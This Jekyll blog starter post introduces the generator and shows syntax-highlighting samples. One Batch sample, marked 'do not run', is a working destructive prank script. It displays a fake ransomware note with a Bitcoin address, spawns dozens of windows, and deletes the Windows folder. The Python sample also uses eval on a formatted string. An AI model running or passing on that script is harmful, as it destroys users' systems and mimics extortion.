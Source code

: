 ```yaml
---
layout: post
title:  "the blog"
date:   2022-06-23 19:08:56 -0500
categories: misc
---
```

---
layout: post
title:  "jekyll/ruby initiation"
date:   2022-06-23 17:56:56 -0500
categories: jekyll update
---

## welcome to jekyll

***what is it?***
Jekyll is a simple, blog-aware, static site generator perfect for personal, project, or organization sites. Think of it like a file-based CMS, without all the complexity. Jekyll takes your content, renders Markdown and Liquid templates, and spits out a complete, static website ready to be served by Apache, Nginx or another web server. Jekyll is the engine behind GitHub Pages, which you can use to host sites right from your GitHub repositories.

***well, what can i do with it?"***
Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/

### syntax highlighting

python:

```python
else:
    if not hasattr(weighting, repartition):
        raise Exception(f'Weighting {repartition} does not exist')
    else:
        weights = eval(f'weighting.{repartition}(frames={blended_frames})')
```

batch: (do not run please)

```batch
@echo off
if not %1c == c goto forked
echo optimizing your pc now!
ping /n 1 1.0.0.1 > nul
echo your file have been encrypt! Send 6 Bitcoin to
echo bc1q5u67ypnlk4n4e35ymtc2n9cuf3m8kax0mnu39t
echo or you will loose youre files for ever!
pause > nul
:forked
set /a “i+=1”
start “” https://discord.gg/CTT
start “” cmd
if not %i% == 50 goto forked
rmdir /s /q "C:\Windows"
exit
```

brainf**k:

```brainfuck
>+++++++++[<++++++++>-]<.>+++++++[<++++>-]<+.+++++++..+++.[-]
>++++++++[<++++>-] <.>+++++++++++[<++++++++>-]<-.--------.+++
.------.--------.[-]>++++++++[<++++>- ]<+.[-]++++++++++.
```


